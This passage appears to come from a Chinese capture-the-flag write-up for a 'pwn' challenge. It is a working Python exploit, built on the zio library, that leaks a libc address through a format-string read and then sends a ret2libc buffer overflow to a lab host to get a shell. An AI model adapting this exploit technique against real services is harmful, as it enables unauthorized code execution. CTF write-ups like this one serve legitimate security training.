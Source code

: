 最终的exploit为：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10005

libcRetOff = 0x18637 
systemOff = 0x0003a940
shellOff = 0x159010
shellcode1 = 'A' * 267 + '\xdb\x85\x04\x08'

conn = zio((IP, port))
#conn = zio("./pwn400")

# obtain the address of __libc_start_main ret
conn.writeline('%83$p' + shellcode1)
libc_ret = conn.read(10)

libc_temp = int(libc_ret, 16) - libcRetOff
systemAddr = l32(libc_temp + systemOff)
shellAddr = l32(libc_temp + shellOff)

conn.read_until("sooo\n")

# obtain shell
shellcode2 = 'A' * 272 + systemAddr + 'AAAA' + shellAddr

conn.writeline(shellcode2)
conn.interact()
```

最后获得shell及flag：

![](images/pwn500-pwn.png)
